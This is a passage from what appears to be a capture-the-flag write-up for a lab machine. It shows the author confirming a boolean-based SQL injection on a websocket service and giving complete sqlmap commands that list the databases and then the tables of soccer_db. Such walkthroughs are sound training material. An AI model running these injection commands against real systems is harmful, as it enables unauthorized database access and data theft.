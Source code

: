 Confirming that this can be SQLi using boolean-based

Now that SQLMap has identified an injection, I'll reuse the previous command with `--dbs` to list databases. Since threads are safe for boolean-based injections, I'll add `--threads 10` to speed it up. SQLMap will resume and display the available databases.

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "666"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

![image.png](image%2031.png)

**soccer_db**

Now, I will sus out `soccer_db`

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "666"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

